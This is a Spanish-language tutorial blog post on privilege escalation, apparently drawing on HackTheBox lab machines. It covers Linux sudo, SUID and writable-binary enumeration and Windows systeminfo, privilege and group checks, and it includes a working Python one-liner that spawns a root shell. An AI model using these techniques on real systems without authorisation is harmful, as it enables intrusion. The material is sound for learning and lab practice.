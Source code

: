 ```yaml
---
date: 2021-11-15T01:14:05.000Z
layout: post
comments: true
title: Escalar privilegios
subtitle: 'para obtener acceso a root o a NT authority system'
description: >-
image: >-
  http://imgfz.com/i/pLYBOku.png
optimized_image: >-
  http://imgfz.com/i/pLYBOku.png
category: ciberseguridad
tags:
  - escalada
  - privilegios
  - root
  - NTauthoritysystem
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


El usuario root en Linux es el usuario que posee mayor nivel de privilegios. De hecho, es el único que tiene privilegios sobre todo el sistema en su globalidad, así como el responsable de las tareas administrativas.

De este modo, cuando tu, o cualquier programa, quiera llevar a cabo una acción que requiera permisos de superusuario, de alguna manera se les tendrá que conceder o denegar estos privilegios. Pero la pregunta es si soy un usuario común, ¿puedo ser root, sin necesidad de contraseña?. La respuesta es que si con ciertos pasos que veremos a continuación aprovechando las vulnerabilidades que dejan los usuarios administradores.

# Linux

## Sudo

Una manera de escalar privilegios es a través del siguiente comando:

```bash
┌─[user@user]─[/]
└──╼ sudo -l
```

y ahí aparecerá un binario en el cuál podremos obtener acceso root siguiendo los pasos que nos indican en [GTFOBins](https://gtfobins.github.io/).

## SUID

Otra manera es buscando en /usr/bin, algún binario que contenga un permiso cuyo carácter sea ```s``` en lugar de ```x```.

```bash
┌─[user@user]─[/]
└──╼ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
```

Ahora también podemos buscar todos los binarios SUID a través de ```find```, con el siguiente comando:

```bash
┌─[user@user]─[/]
└──╼ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

## Puertos abiertos en la máquina

```bash
┌─[user@user]─[/]
└──╼ ss -lnpt
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process                                                                         
LISTEN    0         128                0.0.0.0:23               0.0.0.0:*        users:(("python3",pid=829,fd=3))                                               
LISTEN    0         4096             127.0.0.1:631              0.0.0.0:*                                                                                       
LISTEN    0         4096                 [::1]:631                 [::]:*                                                                                       
```
En este caso hay una página web en la máquina la cual podremos visualizar por medio de [chisel](https://github.com/jpillora/chisel).

## Binarios

Otra forma de hacerlo es chequear que binarios contienen permisos de ejecución para un usuario:

```bash
┌─[user@user]─[/]
└──╼ ls -l /bin/ | grep rwxrwx
lrwxrwxrwx 1 root   root           8 Mar 13  2020 pydoc3 -> pydoc3.8
lrwxrwxrwx 1 root   root          12 Mar 13  2020 pygettext3 -> pygettext3.8
lrwxrwxrwx 1 root   root           9 Mar 13  2020 python3 -> python3.8
lrwxrwxrwx 1 root   root          16 Mar 13  2020 python3-config -> python3.8-config
lrwxrwxrwx 1 root   root          33 Jan 27  2021 python3.8-config -> x86_64-linux-gnu-python3.8-config
```

Aquí podríamos escalar privilegios a través de ```Python```, siguiendo los pasos que nos muestran en [GTFOBins](https://gtfobins.github.io/).

```bash
┌─[user@user]─[/]
└──╼ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'

┌─[root@root]─[/]
└──╼ whoami
root
```

# Windows

## Información del sistema

En el caso de Windows se podría realizar a través de ```systeminfo```, para así poder averiguar vulnerabilidades del sistema:

```
C:\> systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00477-001-0000421-84900
Original Install Date:     22/3/2017, 11:09:45   
System Boot Time:          29/12/2017, 3:34:21   
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 88 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.085 MB
Virtual Memory: In Use:    963 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

![1](http://imgfz.com/i/rFQc3RH.png)

## Permisos de usuario

Se pueden ver que privilegios tiene el usuario a través del siguiente comando:

```
C:\> whoami /priv
```

## Local Group

A través de ver en que grupo se encuentra el usuario se pueden encontrar vías potenciales para escalar privilegios:

```
C:\> net user <user>
```

Ejemplo:

```
C:\> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/16/2021 10:01:36 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Al ver que el usuario está en el grupo ```Server Operators```, se encuentra una vía donde poder realizar la escalada de privilegio a través de ```binPath```.

